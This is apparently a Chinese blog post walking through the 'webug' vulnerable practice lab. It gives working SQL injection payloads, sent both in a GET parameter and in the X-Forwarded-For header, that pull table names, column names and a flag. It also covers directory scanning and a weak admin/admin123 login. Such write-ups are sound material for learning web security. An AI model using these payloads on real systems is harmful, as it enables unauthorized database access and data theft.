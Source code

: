 title: webug 靶场
author: Qianye
abbrlink: 523c96b0
tags:
  - ctf
categories:
  - ctf
date: 2018-03-12 13:56:00
---
这个靶场不错，可惜的是有些题目复现不出来，有些小问题。


# 渗透基础

## 普通的get注入
```bash
http://192.168.3.129/pentest/test/sqli/sqltamp.php?gid=1' order by 4 %23
```
```bash
http://192.168.3.129/pentest/test/sqli/sqltamp.php?gid=1' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema=database()),4%23
```
```bash
http://192.168.3.129/pentest/test/sqli/sqltamp.php?gid=1' union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name=0x666C6167),4%23
```
```bash
http://192.168.3.129/pentest/test/sqli/sqltamp.php?gid=1' union select 1,2,(select group_concat(flag) from flag),4%23
```
## 从图片中找到有用的信息
只能看到123.txt, 此题有点问题
## 你看到了什么
给了一个假的flag。</br>
用御剑扫一下网站</br>
找到test目录，提示说尝试将目录MD5加密一下，将其加密，再访问
```bash
md5(test,32) = 098f6bcd4621d373cade4e832627b4f6
md5(test,16) = 4621d373cade4e83
```
第二个md5加密访问，得到flag
## 告诉你了FLANG是五位数
弱口令admin admin123尝试登入成功
## 一个优点小小的特殊的注入
X-Forwarded-For的一个注入，用bp抓包，将X-Forwarded-For:后面的额数据删除掉，显示出正确的答案。
```bash
X-Forwarded-For:order by 4 %23
```
```bash
X-Forwarded-For:union select 1,2,3,4 %23
```
```bash
X-Forwarded-For:union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema=database()),4 %23
```
```bash
X-Forwarded-For:union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name=0x666C6167),4 %23
```
```bash
X-Forwarded-For:union select 1,2,(select group_concat(flag) from flag),4 %23
```